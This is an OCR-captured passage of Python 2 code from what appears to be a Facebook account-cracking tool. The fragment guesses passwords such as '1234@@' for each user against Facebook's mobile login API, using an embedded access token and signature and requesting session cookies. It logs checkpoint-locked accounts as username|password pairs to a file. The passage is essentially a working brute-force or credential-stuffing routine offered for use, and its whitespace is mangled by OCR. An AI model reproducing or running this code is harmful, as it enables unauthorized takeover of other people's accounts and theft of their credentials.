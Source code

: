 cek = open("out/CP.txt", "a")                                                             cek.write(user+"|"+pass6+"\n")                                                             cek.close()                                                             cekpoint.append(user+pass6)                                                         else:                                                             pass7 = '1234@@'                                                             data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email="+(user)+"&amp;locale=en_US&amp;password="+(pass7)+"&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                                                             q = json.load(data)                                                             if 'access_token' in q:                                                                 print
